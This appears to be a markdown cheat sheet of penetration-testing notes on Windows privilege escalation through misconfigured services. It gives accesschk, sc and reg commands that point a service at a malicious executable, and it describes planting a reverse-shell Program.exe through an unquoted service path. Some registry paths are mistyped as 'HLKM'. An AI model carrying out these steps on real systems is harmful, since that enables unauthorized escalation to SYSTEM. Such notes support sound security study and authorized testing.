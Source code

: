 # Service Exploits

If we have permissions to change the configuration of a service which runs in the context of SYSTEM we cna change the executable with a malicious one.

**Note:** We should have stop/start permissions, otherwise we would need to restart the machine.

## First steps

Run winPEAS to check services info:

```bash
.\winPEAS.exe quit servicesinfo
```

Use accesschk.exe to view our permissions on a service:

```bash
.\accesschk.exe /accepteula -uwcqv $user $service
```

Query the configuration of that service:

```bash
sc qc $service
#SERVICE_START_NAME : LocalSystem = SYSTEM
```

Query the current state of the service (stopped/running):

```bash
sc query $service
```

## Insecure service properties

We can change the default binpath of the service and the restart that service:

```bash
sc config $service binpath= "\"C:\XXXX\xxx.exe""
```

_____

## Unquoted service paths

Fist check if we find any unquoted service path and we have permissions to restart it.

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Now check for writable permissions on the paths:

```bash
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq C:\Program Files\
.
.
```

In the above example if we have write permissions under the "C:\" directory we can create a malicious file called Program.exe which establishes a reverse shell.

Now we only need to start the service again:

```bash
net start $service
```
_____

## Weak Registry Permissions

Windows registry stores entries for each service. If ACLs are misconfigured we can change services configuration.

First check the permissions with PS or accesschk:

```bash
powershell -exec bypass
Get-Acl HKLM:\System\CurrentControlSet\Services\$service | Format-List

.\accesschk.exe /accepteula -uvwqk HLKM\System\CurrentControlSet\Services\$service

#NT AUTHORITY\INTERACTIVE is a group with users that can log on to the machine locally.
```

Check if we can restart the service:

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Check the current values in the service registry entry:

```bash
reg query HLKM\System\CurrentControlSet\Services\$service
```

Change the executable of the service:

```bash
reg add HLKM\System\CurrentControlSet\Services\$service /v ImagePath /t REG_EXPAND_SZ /d C:\malicious.exe
```

Restart the service.
_____

## Insecure Service Executables

If we can change the original executable we can replace it directly.

Verify if we can modify the executable:

```bash
.\accesschk.exe /accepteula -quvw "C:\XX\XX.exe"
```

Check if we can restart the service and then replace it.

_____

## DLL Hijacking

Analyze the executable and find which dlls the program is trying to use. If we have writable permissions on that DLL we can replae it.

Another example is when a DLL is missions from the system and we have writable access to a directory within the PATH that Windows searches for DLLs.
